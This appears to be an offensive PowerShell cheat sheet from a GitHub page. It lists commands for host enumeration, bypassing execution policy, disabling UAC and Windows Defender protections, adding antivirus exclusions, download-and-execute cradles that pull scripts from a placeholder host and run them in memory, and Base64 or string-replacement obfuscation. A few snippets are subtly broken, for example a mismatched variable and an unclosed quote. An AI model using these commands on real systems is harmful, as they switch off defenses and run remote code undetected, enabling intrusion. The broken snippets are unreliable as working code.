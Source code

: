 # Offensive PowerShell
  
#### General PowerShell  
  
~ Cmdlet Help  
`Get-Help <CMDLET>`  
  
~ Code Injection - Invoke-Expression  
`$<STRING> = 'Write-Output "Test text!"'`  
`Invoke-Expression $<STRING>`  
  
#### Domain Enumeration
  
#### Local Enumeration
  
~ List all running processes  
`Get-Process`  
  
~ Get Current Computer Information  
`Get-ComputerInfo -Property CsName,WindowsVersion,WindowsBuildLabEx,WindowsEditionId,OsArchitecture,CsProcessors,CsTotalPhysicalMemory`  
  
~ Get Network Interfaces Information  
`Get-NetAdapter`  
`Get-NetIPAddress`  
`Get-NetIPConfiguration`  
  
~ Get Local Users Information  
`Get-LocalUser | Select-Object Name,SID,Enabled,LastLogon,Created,Modified`  
  
~ Get Local Groups Information  
`Get-LocalGroup`  
`Get-LocalGroupMember -Group <GROUP NAME>`  
  


#### Execution Policy  
  
~ Execution Policy Information  
`Get-ExecutionPolicy -List`  
  
~ Allow unsigned scripts execution for the current user  
`Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`  
`powershell -ep bypass`  
  
#### UAC
  
~ Get UAC Configuration  
`Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System" | Select-Object -Property EnableLUA,ConsentPromptBehaviorAdmin`  
(EnableLUA = UAC [0 = False, 1 = True], ConsentPromptBehaviorAdmin = Prompt Behavior [0-5])  
  
~ Disable UAC (requires admin)  
`cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"`  
  
#### AV / Firewall  
  
~ Get Firewall Information  
` Get-NetFirewallProfile`  
  
~ Get Windows Defender Status  
`Get-MpComputerStatus | Select AntivirusEnabled,RealTimeProtectionEnabled,IoavProtectionEnabled,AntispywareEnabled,IsTamperProtected`  
`Get-MpPreference` (some items require admin access to display information)  
  
~ List other AV Products  
`Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct`  
`'0x{0:x}' -f <ProductState>`  (10 from the 4th number position = on)  

~ Disables realtime monitoring (requires admin)  
`Set-MpPreference -DisableRealtimeMonitoring $true`  
  
~ Disables scanning for downloaded files or attachments (requires admin)  
`Set-MpPreference -DisableIOAVProtection $true`  
  
~ Disable behaviour monitoring (requires admin)  
`Set-MPPreference -DisableBehaviourMonitoring $true`  
  
~ Make exclusion for a certain folder (requires admin)  
`Add-MpPreference -ExclusionPath "C:\Windows\Temp"`  
  
~ Disables cloud detection (requires admin)  
`Set-MPPreference -DisableBlockAtFirstSeen $true`  
  
~ Disables scanning of .pst and other email formats (requires admin)  
`Set-MPPreference -DisableEmailScanning $true`  
  
~ Disables script scanning during malware scans (requires admin)  
`Set-MPPReference -DisableScriptScanning $true`  
  
~ Exclude files by extension (requires admin)  
`Set-MpPreference -ExclusionExtension "ps1"`  
  
#### Remote Code Execution  
  
~ Invoke-Command  
`$computer = "<COMPUTER>"`  
`$creds = Get-Credential`  
`$script = { Write-Output "Test text!" }`  
`Invoke-Command -ComputerName $computer -Credential $creds -ScriptBlock $script`  
  
~ Invoke-RestMethod (Download and run remote scripts)  
`$url = "https://site.com/script.ps1"`  
`$script = Invoke-RestMethod -Uri $url`  
`Invoke-Expression $script`  
  
~ Start-Process (open a new PS instance and run a downloaded script - useful to bypass execution policies)  
`$url = "https://site.com/script.ps1"`  
`Invoke-WebRequest -Uri $url -OutFile "script.ps1"`  
`Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -File script.ps1"`  
  
~ IEX = Invoke-Expression (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`IEX (New-Object System.Net.WebClient).DownloadString($url)`  
  
~ Invoke-WebRequest (run script from memory)  
`$url = "https://site.com/script.ps1`  
`$script = Invoke-WebRequest -Uri $url -UseBasicParsing`  
`Invoke-Expression $script.Content`  
  
~ Invoke-RestMethod (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`$script = Invoke-RestMethod -Uri $url`  
`Invoke-Expression $script`  
  
~ BitsTransfer (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`Import-Module BitsTransfer`  
`Start-BitsTransfer -Source $url -Destination "script.ps1"`  
`Invoke-Expression -Command (Get-Content -Path "script.ps1" -Raw)`  
  
~ Code Compression / Decompression (run script from memory)  
`$url = "https://site.com/script.ps1.gz"`  
`$compressed = (New-Object System.Net.WebClient).DownloadData($url)`  
`$stream = New-Object IO.MemoryStream`  
`$stream.Write($compressed, 0, $compressed.Length)`  
`$stream.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null`  
`$gzip = New-Object IO.Compression.GzipStream($stream,[IO.Compression.CompressionMode]::Decompress)`  
`$reader = New-Object IO.StreamReader($gzip)`  
`$script = $reader.ReadToEnd()`  
`Invoke-Expression $script`  

#### Code Obfuscation
  
~ Base64 Encoding  
`$text = "Test encoded text"`  
`$bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)`  
`$encoded =[Convert]::ToBase64String($bytes)`  
`Invoke-Expression $encoded`  
  
~ Base64 Decoding  
`$encoded = "VABlAHMAdAAgAGUAbgBjAG8AZABlAGQAIAB0AGUAeAB0AA=="`  
`$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded))`  
`Invoke-Expression $decoded`  
  
~ Characters Replacement  
`$obfuscated = "abcdef-ghijkl 'Test text'"`  
`$command = $obfuscatedCommand -replace 'abcdef', 'Write' -replace 'ghijkl', 'Output'`  
`Invoke-Expression $command`  
